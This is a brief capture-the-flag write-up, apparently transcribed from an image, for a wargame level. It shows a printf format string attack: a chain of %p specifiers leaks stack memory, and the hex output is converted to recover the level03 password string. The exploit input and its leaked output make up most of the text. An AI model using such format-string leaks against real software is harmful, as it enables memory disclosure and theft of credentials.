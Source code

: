 printf fomat string attack

level03/.pass is opened and readed, so we can access to it 

%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p 

0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d
-- big endian


4868373452506e75 51397361354a4145 58674e5743717a37 7358476e68354a35 4d394b6650673348
-- litle endian


Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
-- hex to ascii